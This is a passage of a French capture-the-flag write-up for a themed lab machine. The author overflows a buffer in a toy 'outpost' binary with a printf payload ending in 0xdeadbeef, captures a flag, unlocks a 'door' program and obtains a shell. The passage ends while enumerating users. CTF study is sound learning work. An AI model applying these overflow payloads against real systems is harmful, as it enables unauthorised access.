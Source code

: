 Regardons un peu les programmes inconnus.

```console
orc@mordor:~$ door
Enter the right key to unlock the door!
test
Nothing happens
```

Et l'autre ?

```console
orc@mordor:~$ outpost
You arrived the door to escape the outpost.
Many keys are close to you, choose one
key: test
0 = 0xdeadbeef

Oh noo you got the wrong key!
```

Ça laisse supposer qu'un overflow est présent et qu'on peut écraser la variable notée `0`. À tâtonnement j'ai pu effectivement écraser la variable :

```console
orc@mordor:~$ printf "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xEF\xBE\xAD\xDE\xEF\xBE\xAD\xDE\xEF\xBE\xAD\xDE" | outpost
You arrived the door to escape the outpost.
Many keys are close to you, choose one
key: deadbeef = 0xdeadbeefYou found the key!.
        flag{8a29aaf5687129c1d27b90578fc33ecc49d069dc}.
        You gonna try the key on the doorlock!

Speicherzugriffsfehler
```

Cette fois le sha1 correspond à `badpassword`.

```console
orc@mordor:~$ door
Enter the right key to unlock the door!
badpassword
You have unlocked the door!
$ id
/bin/sh: 1: id: not found
$ env
/bin/sh: 2: env: not found
$ export PATH=/usr/local/bin:/usr/bin:/bin:/sbin:/usr/sbin
$ id
uid=1001(orc) gid=1001(orc) Gruppen=1001(orc)
```

## Cache ta joie

Je remarque quelques utilisateurs sur le système :
